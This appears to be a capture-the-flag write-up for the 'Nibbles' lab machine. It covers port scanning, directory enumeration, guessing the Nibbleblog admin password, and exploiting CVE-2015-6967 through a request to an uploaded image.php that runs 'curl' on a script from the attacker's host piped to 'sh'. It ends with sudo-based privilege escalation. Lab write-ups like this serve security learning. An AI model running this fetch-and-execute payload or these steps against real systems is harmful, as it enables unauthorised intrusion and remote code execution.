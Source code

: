 # Nibbles

## Machine Info

![image-20231201075220357](./Nibbles.assets/image-20231201075220357.png)

## Recon

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (96%), Linux 3.13 (96%), Linux 3.16 (96%), Linux 3.2 - 4.9 (96%), Linux 3.8 - 3.11 (96%), Linux 4.8 (96%), Linux 4.4 (95%), Linux 3.18 (95%), Linux 4.2 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- attack vector: 80 http

![image-20231201075948224](./Nibbles.assets/image-20231201075948224.png)

- Path enum: `$ gobuster dir -u http://10.10.10.75/nibbleblog/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt -x php -s 200 -b '' -t 50`

![image-20231201080030307](./Nibbles.assets/image-20231201080030307.png)

![image-20231201080033372](./Nibbles.assets/image-20231201080033372.png)

- Version: **Nibbleblog 4.0.3**

## Foothold

### crack password

- username: admin

![image-20231201080130275](./Nibbles.assets/image-20231201080130275.png)

- admin:123456 [x]

- **admin:nibbles** [y]

### CVE-2015-6967

- searchsploit

![image-20231201080251169](./Nibbles.assets/image-20231201080251169.png)

- [0xConstant/CVE-2015-6967 (github.com)](https://github.com/0xConstant/CVE-2015-6967)

![image-20231201080302857](./Nibbles.assets/image-20231201080302857.png)

- `10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php?rce=curl%20[http://10.10.14.15/q.sh%20|%20sh](http://10.10.14.15/q.sh | sh)`

- get a user shell

![image-20231201080326551](./Nibbles.assets/image-20231201080326551.png)

## Privilege Escalation

- nibbler priv

![image-20231201080343969](./Nibbles.assets/image-20231201080343969.png)

- sudo bash script

![image-20231201080400027](./Nibbles.assets/image-20231201080400027.png)

![image-20231201080406880](./Nibbles.assets/image-20231201080406880.png)

## Exploit Chain

dir enum -> file enum -> version check -> searchsploit, exp yes, no password -> brute force pass -> cve usage -> get a user shell -> sudo script altering -> get a root shell

